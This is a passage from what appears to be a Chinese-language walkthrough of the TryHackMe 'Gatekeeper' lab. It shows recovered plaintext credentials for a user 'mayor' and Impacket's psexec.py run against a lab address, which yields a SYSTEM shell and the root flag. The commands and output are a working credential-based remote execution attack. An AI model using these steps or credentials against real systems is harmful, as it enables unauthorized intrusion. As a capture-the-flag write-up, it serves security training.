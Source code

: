 Website:   https://creds.com
Username: 'mayor'
Password: '8CL7O1N78MdrCIsV'
```

使用psexec.py
```
┌──(root💀kali)-[~/tryhackme/Gatekeeper]
└─# locate psexec.py      
/usr/share/doc/python3-impacket/examples/psexec.py
/usr/share/set/src/fasttrack/psexec.py
```

登录```mayor```的账号，拿到root.txt

```
┌──(root💀kali)-[~/tryhackme/Gatekeeper]
└─# python3 /usr/share/doc/python3-impacket/examples/psexec.py mayor@10.10.97.198                                                                                                                                                                                                                                        1 ⨯
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.97.198.....
[*] Found writable share ADMIN$
[*] Uploading file fLGVcyVU.exe
[*] Opening SVCManager on 10.10.97.198.....
[*] Creating service lccL on 10.10.97.198.....
[*] Starting service lccL.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
c:\Users\mayor\Desktop>type c:\Users\mayor\Desktop\root.txt.txt
{逗你玩儿~}
```
